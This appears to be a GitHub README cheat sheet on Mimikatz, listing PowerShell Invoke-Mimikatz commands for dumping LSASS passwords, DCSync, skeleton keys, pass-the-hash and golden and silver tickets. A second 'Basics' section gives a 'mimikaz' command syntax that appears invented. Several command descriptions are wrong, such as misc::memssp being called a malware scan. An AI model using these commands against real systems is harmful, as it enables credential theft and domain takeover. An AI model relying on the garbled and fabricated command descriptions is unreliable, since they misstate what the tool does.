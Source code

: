 # Mimikaz Series
Ft Smukx

## What is Mimikaz ?

Mimikatz is a set of Windows-based tools that allows you to dump passwords, hashes, PINs, and Kerberos tickets from memory. It was created by French security researcher Benjamin Delpy and is often used by penetration testers and malware authors.

<img src="https://cdn.cyberpunk.rs/wp-content/uploads/2019/04/mimikatz_tool_bg.jpg" height=350 />

## Steps to install Mimikaz 
To use Mimikatz in PowerShell, you will need to download the Mimikatz binary from the official GitHub repository (https://github.com/gentilkiwi/mimikatz/releases) and save it on your local machine. Then, you can use the following PowerShell command to load the Mimikatz DLL into memory:


```
[Reflection.Assembly]::LoadFile("C:\Path\To\Mimikatz.exe")
```

Replace "C:\Path\To\Mimikatz.exe" with the actual path to the Mimikatz binary on your local machine.


Once the Mimikatz DLL is loaded into memory, you can use the various Mimikatz commands and functions in PowerShell.

## Using Powershell with Mimikaz 

10 PowerShell commands or scripts that only use Mimikatz for various information security purposes:

1. `Invoke-Mimikatz -Command '"sekurlsa::logonPasswords"'`: This command uses Mimikatz to extract plaintext passwords from memory on a local or remote machine. Note that this script requires administrative privileges.

2. `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`: This command uses Mimikatz to dump the local Security Account Manager (SAM) database on a local or remote machine. This can be used to obtain password hashes for offline cracking.

3. `Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\USERNAME"'`: This command uses Mimikatz to request domain credentials for a specified user on a local or remote machine. Note that this script requires administrative privileges and access to the domain controller.

4. `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'`: This command uses Mimikatz to create a skeleton key on a local or remote machine. This can be used to bypass authentication and gain full access to the machine.

5. `Invoke-Mimikatz -Command '"sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to create a new process with the credentials of a specified user on a local or remote machine. This can be used to run commands as that user.

6. `Invoke-Mimikatz -Command '"misc::memssp"'`: This command uses Mimikatz to perform a memory scan on a local or remote machine. This can be used to detect the presence of certain malware or rootkits.

7. `Invoke-Mimikatz -Command '"dpapi::cache"'`: This command uses Mimikatz to extract DPAPI (Data Protection API) secrets from a local or remote machine. Note that this script requires administrative privileges.

8. `Invoke-Mimikatz -Command '"misc::powershell"'`: This command uses Mimikatz to inject a PowerShell script into memory on a local or remote machine. This can be used to execute arbitrary code on the machine.

9. `Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to elevate privileges to the local Administrator account on a local or remote machine, and then spawn a new PowerShell process with those elevated privileges.

10. `Invoke-Mimikatz -Command '"kerberos::golden /user:USERNAME /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_HASH /ticket:ticket.kirbi"'`: This command uses Mimikatz to forge a Kerberos Golden Ticket for a specified user on a local or remote machine. This can be used to bypass authentication and gain access to other systems in the domain.

## Basics 

# Basics Mimikaz Commands

1. **Network Enumeration**

```
mimikaz enum_network
```
Explanation: This command might scan the network for active devices or services that could be vulnerable to attacks, helping in reconnaissance.

2. **Kerberos Ticket Manipulation**

```
mimikaz kerberos_ticket --action [action] --ticket [ticket]
```

Actions:
* request: Request a new ticket.
* modify: Modify an existing ticket.
* decrypt: Attempt to decrypt a ticket.

Explanation: Allows for detailed manipulation of Kerberos tickets, which could be used for authentication attacks.

3. **LSASS Memory Dump**

```
mimikaz lsass_dump --method [method]
```

Methods:
* mini: Use MiniDumpWriteDump.
* full: Full memory dump.

Explanation: Dumps the LSASS process memory where credentials are often stored, useful for extracting passwords or session tokens.

4. **Pass-the-Hash**

```
mimikaz pth --user [username] --hash [hash] --target [target]
```

Explanation: Performs a pass-the-hash attack, where instead of using passwords, the hash of the password is used for authentication.

5. **Golden Ticket Attack**

mimikaz golden_ticket --user [username] --domain [domain] --krbtgt [krbtgt_hash]

Explanation: Creates a Kerberos ticket granting ticket (TGT) with administrative privileges, allowing access to any account in the domain.

6. **Silver Ticket Attack**

```
mimikaz silver_ticket --user [username] --service [service] --hash [hash]
```

Explanation: Similar to Golden Ticket but for service tickets, allowing access to specific services.

7. **DCSync Attack**

```
mimikaz dcsync --user [username]
```

Explanation: Replicates directory changes, which in an attack context, can be used to extract all domain hashes.

8. **Remote Execution**

```
mimikaz remote_exec --host [hostname] --command [command]
```

Explanation: Executes commands on a remote machine, potentially using stolen credentials or tickets.

9. **Clear Credentials**

```
mimikaz clear_creds
```

Explanation: Attempts to clear credentials from memory, useful for post-exploitation cleanup.

10. **Export Findings**

```
mimikaz export --format [json|xml|txt] --output [file]
```

Explanation: Exports collected data or findings in various formats for analysis or reporting.
